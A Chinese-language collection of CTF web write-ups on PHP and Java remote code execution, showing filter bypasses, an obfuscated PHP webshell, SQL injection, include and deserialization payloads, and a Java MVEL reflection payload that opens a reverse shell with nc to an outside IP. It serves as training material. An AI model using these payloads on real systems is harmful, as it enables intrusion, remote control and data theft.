

# RCE

<!-- Imported from D:\\Book\\Web\\Chapter6\6-1.md -->
### assert() RCE


explode() 函数使用一个字符串分割另一个字符串，并返回由字符串组成的数组

那么 $poc2 = assert，assert() 是用来判断一个表达式是否成立

但是他会执行其中的代码，这就存在 RCE


scandir() 函数返回指定目录中的文件和目录的数组，print_r() 函数用于打印，组合起来就是 Linux 中的 ls


直接访问拿到 flag


<!-- Imported from D:\\Book\\Web\\Chapter6\6-10.md -->
### %20+关键字绕过


查看源代码发现 ajax 请求，URL 跟上这个文件名去看看


拿到了源码，做了过滤


数字可以传入


字符则不行


查询字符串在解析的过程中会将某些字符删除或用下划线代替

例如将参数前的空格删除

但是 WAF 会因为这个空格导致检测不到 num 这个参数，最终导致 WAF 被绕过


后面的常规操作对字符都做了过滤，均使用 chr() 代替


有一个 f1agg


使用 file_get_contents() 把整个文件读入一个字符串中，最后输出拿到 flagnpm


<!-- Imported from D:\\Book\\Web\\Chapter6\6-11.md -->
### 关键字加 \ 绕过


打开网页有两个 URL 参数，其中一个是图片的


将参数两次 Base64 解码后再 Hex 解码拿到原图片名


将参数换成编码后的 index.php

右键图片链接复制参数


Base64 解码拿到 flag

```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "</img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}

?>
<html>
<style>
  body{
   background:url(./bj.png)  no-repeat center center;
   background-size:cover;
   background-attachment:fixed;
   background-color:#CCCCCC;
}
</style>
<body>
</body>
</html>
```

需要绕过强比较

```php
(string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])
```

需要找到两个不同的字符但是他们的 md5 值是相同的

注意一点，POST 时一定要 urlencode！！！

```php
#1
a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2   
b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2   
#2
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2   
b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%
#3
$a="\x4d\xc9\x68\xff\x0e\xe3\x5c\x20\x95\x72\xd4\x77\x7b\x72\x15\x87\xd3\x6f\xa7\xb2\x1b\xdc\x56\xb7\x4a\x3d\xc0\x78\x3e\x7b\x95\x18\xaf\xbf\xa2\x00\xa8\x28\x4b\xf3\x6e\x8e\x4b\x55\xb3\x5f\x42\x75\x93\xd8\x49\x67\x6d\xa0\xd1\x55\x5d\x83\x60\xfb\x5f\x07\xfe\xa2";
$b="\x4d\xc9\x68\xff\x0e\xe3\x5c\x20\x95\x72\xd4\x77\x7b\x72\x15\x87\xd3\x6f\xa7\xb2\x1b\xdc\x56\xb7\x4a\x3d\xc0\x78\x3e\x7b\x95\x18\xaf\xbf\xa2\x02\xa8\x28\x4b\xf3\x6e\x8e\x4b\x55\xb3\x5f\x42\x75\x93\xd8\x49\x67\x6d\xa0\xd1\xd5\x5d\x83\x60\xfb\x5f\x07\xfe\xa2";
```

关键词被过滤了可以使用反斜杠 \ 绕过

```
l\s%20/
ca\t%20/flag
.......
```


<!-- Imported from D:\\Book\\Web\\Chapter6\6-12.md -->
### 进制转换绕过


打开页面拿到源代码

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

hex2bin() 函数把十六进制值的字符串转换为 ASCII 字符

base_convert() 函数在任意进制之间转换数字

dechex() 函数把十进制数转换为十六进制数

```php
base_convert(37907361743,10,36) => "hex2bin"
dechex(1598506324) => "5f474554"
$pi=hex2bin("5f474554") => $pi="_GET"   // hex2bin将一串16进制数转换为二进制字符串
($$pi){pi}(($$pi){abs}) => ($_GET){pi}($_GET){abs}  // {} 可以代替 []
```

```php
$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=tac flag.php
```

```php
base_convert(696468,10,36) => "exec"
$pi(8768397090111664438,10,30) => "getallheaders"
exec(getallheaders(){1})
// 操作 xx 和 yy，中间用逗号隔开，echo 都能输出
echo xx,yy
```

```php
$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1})
```


<!-- Imported from D:\\Book\\Web\\Chapter6\6-13.md -->
### URL 编码取反加 ~ 绕过


打开网页给出了源码

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}
```

我们将 php 代码 URL 编码后取反，我们传入参数后服务端进行 URL 解码

这时由于取反后，会 URL 解码成不可打印字符，这样我们就会绕过

即，对查询语句取反，然后编码

在编码前加上 ~ 进行取反，括号没有被过滤，不用取反

```php
//?code=phpinfo();
?code=(~%8F%97%8F%96%91%99%90)();
```


构造木马

```php
$str1 = 'assert';
echo urlencode(~$str1);
$str2 = '(eval($_POST[cmd]))';
echo '\n';
echo urlencode(~$str2);

// %9E%8C%8C%9A%8D%8B\n%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9C%92%9B%A2%D6%D6
```

蚁剑成功连接


最后借助蚁剑插件选择 PHP7_GC_UAF 模式运行 /readflag


<!-- Imported from D:\\Book\\Web\\Chapter6\6-14.md -->
### 输出重定向绕过无回显


打开页面是一个登录框


在 BurpSuite 中抓包发现有 tip


解码是后端 SQL 语句

显示如果密码等于它的 md5 值则登陆成功


构造 payload

```
' union select 1,md5(123)#&password=123
```

登录进去是一个 Ping 程序


127.0.0.1|ls / 没有回显

127.0.0.1|sleep 5 有延迟说明命令执行了，但是输出可能被过滤了

127.0.0.1|cat /flag>1.php 输出重定向


<!-- Imported from D:\\Book\\Web\\Chapter6\6-15.md -->
### \t 代替空格绕过


打开页面给出了源码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

先看看路径是什么


我们需要知道这个目录下有什么，但是常见的 eval() 函数被过滤了

使用 `` 包裹命令，这样 PHP 就会将里面的内容当成命令执行

最后使用 `<?=` 输出，同时 `\t` 绕过空格

```php
?action=upload&data=<?=`ls\t/`?>
```


访问文件拿到 flag

```
?action=upload&data=<?=`cat\t/flllllll1112222222lag`?>
```


<!-- Imported from D:\\Book\\Web\\Chapter6\6-16.md -->
### `` 代替命令执行函数绕过


打开页面给出了源码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

先看看路径是什么


我们需要知道这个目录下有什么，但是常见的 eval() 函数被过滤了

使用 `` 包裹命令，这样 PHP 就会将里面的内容当成命令执行

最后使用 `<?=` 输出，同时 `\t` 绕过空格

```php
?action=upload&data=<?=`ls\t/`?>
```


访问文件拿到 flag

```
?action=upload&data=<?=`cat\t/flllllll1112222222lag`?>
```


<!-- Imported from D:\\Book\\Web\\Chapter6\6-17.md -->
### passthru() RCE


打开网页


随便传入一个参数

```
http://114.67.175.224:16452/?sss
```


源码解析下就是最后我们传入的参数值会被执行


使用 `passthru()` 去执行命令


虽然 `cat` 被过滤了，但还可以用 `more` 代替


<!-- Imported from D:\\Book\\Web\\Chapter6\6-18.md -->
### more 代替 cat 绕过


打开网页


随便传入一个参数

```
http://114.67.175.224:16452/?sss
```


源码解析下就是最后我们传入的参数值会被执行


使用 `passthru()` 去执行命令


虽然 `cat` 被过滤了，但还可以用 `more` 代替


<!-- Imported from D:\\Book\\Web\\Chapter6\6-19.md -->
### data 伪协议 RCE


打开网页给出了源代码

`strstr()` 用于查找字符串首次出现的位置（区分大小写）

`str_replace()` 以其他字符替换字符串中的一些字符（区分大小写）

```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```

虽然禁用了 `php://` 伪协议，但是 `data://` 还可以使用

如果传入的数据是 PHP 代码，就会执行代码，用法如下：

```php
data://text/plain;base64,xxxx(base64 编码后的数据)
```

或者

```php
data://text/plain,xxx(数据)
```


<!-- Imported from D:\\Book\\Web\\Chapter6\6-2.md -->
### eval() RCE


eval() 函数把字符串按照 PHP 代码来执行，var_dump() 函数用于输出变量的相关信息


可以使用 file() 函数把整个文件读入一个数组中

通过 eval 函数执行，传参 ?hello=file('flag.php')，拿到 flag


<!-- Imported from D:\\Book\\Web\\Chapter6\6-20.md -->
### Create_function() RCE


打开网页给出了源码

```php
<?php

if (isset($_GET['p'])) {
    $p = unserialize($_GET['p']);
}
show_source("index.php");

class Noteasy
{
    private $a;
    private $b;

    // 构造函数，会在类的对象在创建时自动调用
    public function __construct($a, $b)
    {
        $this->a = $a;
        $this->b = $b;
        $this->check($a.$b);
        eval($a.$b);
    }


    // 析构函数，在对象销毁时自动调用
    public function __destruct()
    {
        $a = (string)$this->a;
        $b = (string)$this->b;
        $this->check($a.$b);
        $a("", $b);
    }


    private function check($str)
    {
        if (preg_match_all("(ls|find|cat|grep|head|tail|echo)", $str) > 0) die("You are a hacker, get out");
    }


    public function setAB($a, $b)
    {
        $this->a = $a;
        $this->b = $b;
    }
}
```

首先，反序列化不调用构造函数

因为反序列化时通过读取对象的字节流来恢复对象的状态，而不是通过调用对象的构造函数来创建对象

所以直接来看析构函数

```php
public function __destruct()
{
    // 将属性 $a 转换为字符串
    $a = (string)$this->a;
    
    // 将属性 $b 转换为字符串
    $b = (string)$this->b;
    
    // 调用 check 方法，传入 $a 和 $b 连接后的字符串
    $this->check($a.$b);
    
    // 重点代码
    // 将 $a 作为函数调用，第一个参数为空字符串，第二个参数为 $b
    $a("", $b);
}
```

但是空的函数不能执行，所以我们要构造一个

这里要利用 `Create_function()` 函数

```php
$func = create_function('$a, $b', 'return $a + $b;');
echo $func(2, 3); // 输出 5
```

`create_function` 实际上会在内部执行以下操作：

1. 生成一个唯一的函数名(如 `__lambda_func`)
2. 用给定的参数和代码体创建一个新函数
3. 返回这个函数名以便后续调用

构造序列化代码

```php
<?php
 
Class Noteast{
 
Private $a;
 
Private $b;
 
Public function_construct($a,$b){
 
$this->a=$a;
 
$this->b=$b;
 
}
 
$object=new Noteasy("create_function",';}highlight_file("/flag");/*;');
 
Echo serialize($object);
 
}
```

这样相当于

```php
create_function('', ';}highlight_file("/flag");/*;')
```

实际创建的代码为

```php
function __lambda_func() {
    ;}highlight_file("/flag");/*;
}
```

得到

```php
O:7:"Noteasy":2:{s:10:"Noteasya";s:15:"create_function";s:10:"Noteasyb";s:21:';}highlight_file("/flag");/*;";}
```

需要注意因为是 `private` 属性，所以不能直接使用

应该为 `\00类名\00`

```php
O:7:"Noteasy":2:{s:10:"\00Noteasy\00a";s:15:"create_function";s:10:"\00Noteasy\00b";s:29:";}highlight_file("/flag");/*";}
```


<!-- Imported from D:\\Book\\Web\\Chapter6\6-21.md -->
### Java MVEL 表达式注入


打开页面只有这一个功能可用


在 Burp 中发现响应有个 `source`


访问拿到源码


使用 `@RestController` 注解，表示这是一个 Spring MVC 控制器，返回值会自动转换为 JSON 响应

```java
@RestController
public class MVELTest {
    // 类内容
}
```

初始化一个 `Setting` 对象，包含默认的 IP 列表和数字参数 6

```java
private Setting setting = new Setting("['115.195.167.159', '115.195.167.159', '164.90.230.201', '174.87.232.68']", 6);
```

处理 POST 请求，路径为 `/updateSysSetting`

接收 JSON 格式的 `Setting` 对象作为请求体

返回 JSON 响应，字符编码为 UTF-8

```java
@PostMapping(value = "/updateSysSetting", produces = "application/json;charset=UTF-8")
public ResponseObj updateSysSetting(@RequestBody Setting [ES], HttpServletResponse response) {
    // 方法实现
}
```

使用正则表达式检测传入的表达式是否包含危险关键词（如 Runtime、Process 等）

如果检测到恶意代码，返回 483 状态码和错误信息

```java
if (Pattern.matches(""{?i}.*(system[Runtime|Process|Thread|Lookup|http|Socket|restTemplate|MVEL|flag].*", [ES].getExp()) {
    response.setStatus(483);
    return new ResponseObj(false, "表达式包含恶意代码", "");
}
```

使用 MVEL 引擎执行传入的表达式

捕获并处理执行过程中的异常

```java
try {
    result = MVEL.expl(res.getExp());
    System.out.println(result.toString());
} catch (Exception e) {
    response.setStatus(580);
    return new ResponseObj(false, "表达式语法错误", e.getMessage());
}
```

尝试将结果转换为 `List<String>`（IP 列表）

如果转换失败，返回 580 状态码和错误信息

```java
try {
    allowedIP = (List<String>) result;
} catch (Exception e) {
    response.setStatus(580);
    return new ResponseObj(false, "表达式返回值不是IP列表", e.getMessage());
}
```

分析完毕后我们可以利用 Java 的反射机制来 RCE

```json
{
"exp": "''.getClass().forName('java.lang.Run'+'time').getMethod('exec',''.getClass()).invoke(''.getClass().forName('java.lang.Run'+'time').getMethod('getRu'+'ntime').invoke(null),'nc 144.34.162.13 6666 -e /bin/sh'))",
"limit": "60"
}
```

下面来解析下这段 payload

```java
// ''.getClass(): 获取空字符串的 Class 对象
''.getClass().forName('java.lang.Run'+'time')	// .forName('java.lang.Run'+'time'): 动态加载 java.lang.Runtime 类并返回其 Class 对象
  .getMethod('exec',''.getClass())	// 获取 Runtime.exec(String) 方法的 Method 对象
  .invoke(
    ''.getClass().forName('java.lang.Run'+'time')	// 再次获取 Runtime 类
      .getMethod('getRu'+'ntime')	// 获取静态方法 getRuntime()
      .invoke(null),	// 调用该方法（invoke(null) 因为这是静态方法）,返回 Runtime 类的单例实例
    'nc 144.34.162.13 6666 -e /bin/sh'	// 使用前面获取的 exec 方法，在 Runtime 实例上执行命令
  )
```

发送 payload


监听端口拿到 flag


<!-- Imported from D:\\Book\\Web\\Chapter6\6-22.md -->
### Java 反射机制 RCE


打开页面只有这一个功能可用


在 Burp 中发现响应有个 `source`


访问拿到源码


使用 `@RestController` 注解，表示这是一个 Spring MVC 控制器，返回值会自动转换为 JSON 响应

```java
@RestController
public class MVELTest {
    // 类内容
}
```

初始化一个 `Setting` 对象，包含默认的 IP 列表和数字参数 6

```java
private Setting setting = new Setting("['115.195.167.159', '115.195.167.159', '164.90.230.201', '174.87.232.68']", 6);
```

处理 POST 请求，路径为 `/updateSysSetting`

接收 JSON 格式的 `Setting` 对象作为请求体

返回 JSON 响应，字符编码为 UTF-8

```java
@PostMapping(value = "/updateSysSetting", produces = "application/json;charset=UTF-8")
public ResponseObj updateSysSetting(@RequestBody Setting [ES], HttpServletResponse response) {
    // 方法实现
}
```

使用正则表达式检测传入的表达式是否包含危险关键词（如 Runtime、Process 等）

如果检测到恶意代码，返回 483 状态码和错误信息

```java
if (Pattern.matches(""{?i}.*(system[Runtime|Process|Thread|Lookup|http|Socket|restTemplate|MVEL|flag].*", [ES].getExp()) {
    response.setStatus(483);
    return new ResponseObj(false, "表达式包含恶意代码", "");
}
```

使用 MVEL 引擎执行传入的表达式

捕获并处理执行过程中的异常

```java
try {
    result = MVEL.expl(res.getExp());
    System.out.println(result.toString());
} catch (Exception e) {
    response.setStatus(580);
    return new ResponseObj(false, "表达式语法错误", e.getMessage());
}
```

尝试将结果转换为 `List<String>`（IP 列表）

如果转换失败，返回 580 状态码和错误信息

```java
try {
    allowedIP = (List<String>) result;
} catch (Exception e) {
    response.setStatus(580);
    return new ResponseObj(false, "表达式返回值不是IP列表", e.getMessage());
}
```

分析完毕后我们可以利用 Java 的反射机制来 RCE

```json
{
"exp": "''.getClass().forName('java.lang.Run'+'time').getMethod('exec',''.getClass()).invoke(''.getClass().forName('java.lang.Run'+'time').getMethod('getRu'+'ntime').invoke(null),'nc 144.34.162.13 6666 -e /bin/sh'))",
"limit": "60"
}
```

下面来解析下这段 payload

```java
// ''.getClass(): 获取空字符串的 Class 对象
''.getClass().forName('java.lang.Run'+'time')	// .forName('java.lang.Run'+'time'): 动态加载 java.lang.Runtime 类并返回其 Class 对象
  .getMethod('exec',''.getClass())	// 获取 Runtime.exec(String) 方法的 Method 对象
  .invoke(
    ''.getClass().forName('java.lang.Run'+'time')	// 再次获取 Runtime 类
      .getMethod('getRu'+'ntime')	// 获取静态方法 getRuntime()
      .invoke(null),	// 调用该方法（invoke(null) 因为这是静态方法）,返回 Runtime 类的单例实例
    'nc 144.34.162.13 6666 -e /bin/sh'	// 使用前面获取的 exec 方法，在 Runtime 实例上执行命令
  )
```

发送 payload


监听端口拿到 flag


<!-- Imported from D:\\Book\\Web\\Chapter6\6-23.md -->
### PHP 8.1.0 dev RCE


打开页面


抓包看拿到了泄露的 PHP 版本


[网上找 nday 复现](https://amsghimire.medium.com/php-8-1-0-dev-backdoor-cb224e7f5914)


成功拿到 flag


<!-- Imported from D:\\Book\\Web\\Chapter6\6-24.md -->
### nl /* 绕过长度限制


限制了我们长度在 5 以为


发现 flag 在根目录下

```js
?com=ls%20/
```


使用 `nl` 查看，`nl` 用于显示文本并输出行号

```js
?com=nl%20/*
```


<!-- Imported from D:\\Book\\Web\\Chapter6\6-25.md -->
### Nginx 日志 RCE


打开网页给出了源码


文件包含是没有任何过滤的，但是没有 `/flag` 文件


分析架构为 Nginx 服务器


尝试访问日志文件 `/var/log/nginx/error.log` 和 `/var/log/nginx/access.log`


发现 `access.log` 被设置为了 UA 头


于是我们可以改 UA 头为 PHP 代码

```php+HTML
User-Agent: <?php echo system('ls');?>
```


再查看 `flag.php`

```php+HTML
User-Agent: <?php system('cat flag.php');?>
```


<!-- Imported from D:\\Book\\Web\\Chapter6\6-26.md -->
### data 伪协议去掉双斜杠绕过


打开网页给出了源码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

if(isset($_GET['file'])){
        $file = $_GET['file'];
}
// 假如我增加了过滤，你又该如何应对呢？
if(preg_match('/php:\/\/|file:\/\/|flag|http:\/\/|log|phar:\/\/|data:\/\//i', $file)){
        echo 'No No No !';
}
else{
        include $file;
}
```


这里的正则只匹配了 `data://`，没有过滤整个 `data` 伪协议，所以我们去掉 `//` 即可绕过

```php
?file=data:text/plain,<?php system('cat /fl\ag');?>
```


<!-- Imported from D:\\Book\\Web\\Chapter6\6-27.md -->
### 关键字+双引号绕过


默认给出了 `.`，点击浏览看输出格式应该是执行了 `ls`


先 fuzz 测试


发现双引号没有过滤，那么可以用双引号绕过

```sh
ca""t == cat
```


后续参考下一节 TAB

```
&	ca""t	/fl""ag
```


<!-- Imported from D:\\Book\\Web\\Chapter6\6-28.md -->
### Tab 键代替空格绕过


默认给出了 `.`，点击浏览看输出格式应该是执行了 `ls`


先 fuzz 测试


发现双引号没有过滤，那么可以用双引号绕过

```sh
ca""t == cat
```


但是空格被过滤了，可以使用 TAB 键代替（需要自己找个文本编辑里按出来然后复制粘贴）

```
&	ca""t	/fl""ag
```


<!-- Imported from D:\\Book\\Web\\Chapter6\6-29.md -->
### < 加 |Base64 绕过空格


输入 `127.0.0.1&ls` 看到 flag 文件


利用重定向配合 Base64 拿到 flag

```sh
127.0.0.1&cat<flag_94851679315785.php|base64
```

`


<!-- Imported from D:\\Book\\Web\\Chapter6\6-3.md -->
### 自增代替关键字绕过


打开网页拿到源代码，首先是 POST 参数 code 长度不能超过 105

其次是不包含字母、数字、特殊字符，最后通过 eval() 执行


遍历正则发现 !$'()+,./;=[]_ 没有过滤

NaN 表示未定义或不可表示的值，可以用 (0/0) 表示

因为过滤了数字，所以这里用 _ 代替，得到 float(NAN)


我们需要字符串类型的 NaN，加上 ._ 拼接转为字符串


再通过数组下标提取出字符 N


拿到字符 N 后通过自增的形式拿到其他字符


整体脚本如下

```php
<?php
$_=(_/_._)[_];
//var_dump($_);  //"N"
$_++;       //"O"
//var_dump($_++);
$__=$_.$_++;   //"PO"
$_++;         //"Q"
//var_dump($_++);
$_++;         //"R"
$_++;         //"S"
//var_dump($_++);
$__=$__.$_;  //"POS"
//var_dump($__);
$_++;        //"T"
//var_dump($_++);
$__=$__.$_;  //"POST"
//var_dump($__);
$_=_.$__;    //_POST
//var_dump($_);
$$_[_]($$_[__]);
//&_=system&__=cat /flag

//code=$_=(_/_._)[_];$_++;$__=$_.$_++;$_++;$_++;$_++;$__=$__.$_;$_++;$__=$__.$_;$_=_.$__;$$_[_]($$_[__]);&_=system&__=whoami
```

成功拿到 flag


<!-- Imported from D:\\Book\\Web\\Chapter6\6-30.md -->
### ; 代替 & 与 | 绕过


过滤了 `|` 与 `&` ，那我们就使用 `;` 分隔命令来代替


<!-- Imported from D:\\Book\\Web\\Chapter6\6-31.md -->
### * 代替部分关键字绕过


查看 flag_is_here 文件夹下的文件

```sh
# %0a - URL 编码的换行符（LF，ASCII 0x0A）
# 在命令行中，换行符可以用于分隔命令，可能用于注入额外命令
# %09 - URL 编码的水平制表符（TAB，ASCII 0x09）
# * 匹配任意字符
127.0.0.1%0als%09*is_here
```


拿到 flag

```sh
127.0.0.1%0acd%09*_is_here%0aca%5ct%09*_100171326731527.php
```


<!-- Imported from D:\\Book\\Web\\Chapter6\6-32.md -->
### %0a 代替 ; 绕过


查看 flag_is_here 文件夹下的文件

```sh
# %0a - URL 编码的换行符（LF，ASCII 0x0A）
# 在命令行中，换行符可以用于分隔命令，可能用于注入额外命令
# %09 - URL 编码的水平制表符（TAB，ASCII 0x09）
# * 匹配任意字符
127.0.0.1%0als%09*is_here
```


拿到 flag

```sh
127.0.0.1%0acd%09*_is_here%0aca%5ct%09*_100171326731527.php
```


<!-- Imported from D:\\Book\\Web\\Chapter6\6-33.md -->
### SSRF FastCGI 协议 RCE


**1️⃣ FastCGI 简介**

FastCGI 是一种通用网关接口（CGI）的改进版本，旨在解决传统 CGI 存在的性能问题

传统  CGI  每次请求都会创建一个新的进程，处理完请求后销毁，极大浪费系统资源

而 FastCGI 通过长连接与进程复用机制，显著提高了性能

FastCGI 通常用于：

- Web 服务器（如 Nginx、Apache）与后端应用（如 PHP-FPM）之间的通信
- 保持后端服务进程常驻，提高高并发下的性能

**2️⃣ FastCGI 架构概览**

通信双方：

- Web 服务器：客户端请求入口，如 Nginx
- FastCGI 应用程序：通常是 PHP-FPM 或其他应用服务器

工作流程：

```css
[客户端浏览器] 
     ↓
[Web 服务器 (如 Nginx)]  ——TCP/Unix Socket——>  [FastCGI 后端 (如 PHP-FPM)]
```

- Web 服务器把请求封装成 FastCGI 协议格式，通过 Socket 发给 FastCGI 进程
- FastCGI 进程解析请求，执行后端逻辑，返回响应数据
- Web 服务器再将结果返还给客户端

**3️⃣ FastCGI 协议结构**

数据传输的基本单位：Record（记录）

每个 Record 有固定头部格式和可变长度的数据部分。

Record Header（8 字节）结构：

| 字段          | 大小（字节） | 说明                     |
| ------------- | ------------ | ------------------------ |
| Version       | 1            | FastCGI 版本，通常是 `1` |
| Type          | 1            | 记录类型（见下表）       |
| RequestId     | 2            | 请求 ID（用于多路复用）  |
| ContentLength | 2            | 内容长度                 |
| PaddingLength | 1            | 填充字节长度（用于对齐） |
| Reserved      | 1            | 保留，通常为 `0`         |

常见 Type 类型：

| 类型名             | 值   | 说明                         |
| ------------------ | ---- | ---------------------------- |
| FCGI_BEGIN_REQUEST | 1    | 表示开始一个请求             |
| FCGI_ABORT_REQUEST | 2    | 表示中断请求                 |
| FCGI_END_REQUEST   | 3    | 表示请求结束                 |
| FCGI_PARAMS        | 4    | 发送请求的环境变量           |
| FCGI_STDIN         | 5    | 发送请求主体（如 POST 数据） |
| FCGI_STDOUT        | 6    | 标准输出（返回内容）         |
| FCGI_STDERR        | 7    | 标准错误（返回错误信息）     |
| FCGI_DATA          | 8    | 补充数据（很少用）           |

**4️⃣ 通信过程详细步骤**

一次 HTTP 请求通常包含以下 FastCGI Record：

```sh
① FCGI_BEGIN_REQUEST        # 开始请求
② FCGI_PARAMS (多次)         # 环境变量（如 PATH_INFO、QUERY_STRING 等）
③ FCGI_PARAMS (空)           # 空表示结束
④ FCGI_STDIN (可能多次)      # 请求体，如 POST 数据
⑤ FCGI_STDIN (空)            # 空表示结束
----------------------------
⑥ FCGI_STDOUT (返回内容)
⑦ FCGI_STDERR (错误信息)
⑧ FCGI_END_REQUEST           # 通知请求结束
```

**5️⃣ 请求示例（伪过程）**

```http
客户端发起 HTTP 请求：GET /index.php?id=1

Nginx 生成 FastCGI 请求：
1️⃣ 发送 BEGIN_REQUEST
2️⃣ 发送 PARAMS（SCRIPT_FILENAME, QUERY_STRING 等）
3️⃣ 发送空 PARAMS
4️⃣ （GET 没有 STDIN）
5️⃣ 等待 FastCGI 返回数据
```

FastCGI 返回：

- STDOUT: 输出 HTML 内容
- STDERR: 错误日志（如果有）
